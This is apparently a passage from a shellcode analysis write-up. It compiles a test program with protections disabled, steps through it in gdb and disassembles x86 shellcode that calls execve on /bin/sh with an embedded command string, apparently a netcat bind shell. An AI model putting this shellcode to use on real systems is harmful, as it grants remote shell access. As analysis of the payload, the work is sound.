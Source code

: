 #### Compile and Run with gdb
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c 
root# gdb ./shellcode
gdb-peda$ info variables
0x0804a040  code
gdb-peda$ b *0x0804a040
Breakpoint 1 at 0x804a040
gdb-peda$ run
```
+ Found memory location of the code variable from our C Program and set a breakpoint for once it starts executing at our variables memory location.

### gdb Disassemble
```console
gdb-peda$ disassemble
Dump of assembler code for function code:
=> 0x0804a040 <+0>:     push   0xb
   0x0804a042 <+2>:     pop    eax
   0x0804a043 <+3>:     cdq
   0x0804a044 <+4>:     push   edx
   0x0804a045 <+5>:     pushw  0x632d
   0x0804a049 <+9>:     mov    edi,esp
   0x0804a04b <+11>:    push   0x68732f
   0x0804a050 <+16>:    push   0x6e69622f
   0x0804a055 <+21>:    mov    ebx,esp
   0x0804a057 <+23>:    push   edx
   0x0804a058 <+24>:    call   0x804a079 <code+57>
   0x0804a05d <+29>:    outs   dx,BYTE PTR ds:[esi]
   0x0804a05e <+30>:    arpl   WORD PTR [eax],sp
   0x0804a060 <+32>:    sub    eax,0x20706c6e
   0x0804a065 <+37>:    xor    al,0x34
   0x0804a067 <+39>:    xor    al,0x34
   0x0804a069 <+41>:    and    BYTE PTR ds:0x2f222065,ch
   0x0804a06f <+47>:    bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804a072 <+50>:    das
   0x0804a073 <+51>:    jae    0x804a0dd
   0x0804a075 <+53>:    and    ah,BYTE PTR [eax]
   0x0804a077 <+55>:    add    BYTE PTR es:[edi+0x53],dl
   0x0804a07b <+59>:    mov    ecx,esp
   0x0804a07d <+61>:    int    0x80
   0x0804a07f <+63>:    add    BYTE PTR [eax],al
End of assembler dump.
```

## Registers at time of Systemcall
```console
EAX: 0xb ('\x0b')
EBX: 0xbffff4ce ("/bin/sh")
ECX: 0xbffff4be --> 0xbffff4ce ("/bin/sh")
EDX: 0x0
```
